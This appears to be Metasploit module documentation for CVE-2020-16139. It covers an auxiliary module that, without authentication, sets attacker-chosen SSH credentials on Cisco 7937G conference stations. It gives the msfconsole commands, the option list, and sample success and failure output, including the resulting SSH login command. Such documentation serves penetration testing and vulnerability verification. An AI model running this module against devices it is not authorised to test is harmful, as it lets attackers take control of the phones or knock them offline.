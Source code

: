 ## Vulnerable Application

  1. Obtain a Cisco 7937G Conference Station.
  2. Enable Web Access and SSH Access on the device.
  3. It has been observed that based on the firmware available from Cisco, all version are likely vulnerable.

## Verification Steps

  1. Start msfconsole
  2. Do: `use auxiliary/dos/cisco/CVE-2020-16139`
  3. Do: `set RHOSTS 192.168.1.10`
  4. Do: `set USER test`
  5. Do: `set PASS test`
  6. Do: `run`
  7. The conference station's SSH service should now be configured with the supplied USER:PASS.

## Options

  1. PASS (required) - Desired password
  2. RHOSTS (required) - Target addres
  3. THREADS (default 1, required) - The number of concurrent threads (max one per host)
  4. TIMEOUT (default 5, required) - Timeout in seconds before aborting
  5. USER (required) - Desired username

## Scenarios

#### Successful Scenario
```
[*] Running for 192.168.110.209...
[*] 192.168.110.209 - Attempting to set SSH credentials.
[*] 192.168.110.209 - SSH attack finished!
[*] 192.168.110.209 - Try to login using the supplied credentials test:test
[*] 192.168.110.209 - You must specify the key exchange when connecting or the device will be DoS'd!
[*] 192.168.110.209 - ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 test@192.168.110.209
```

#### Unsuccessful Scenario
```
[*] Running for 192.168.110.209...
[*] 192.168.110.209 - Attempting to set SSH credentials.
[-] 192.168.110.209 - Device doesn't appear to be functioning or web access is not enabled.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
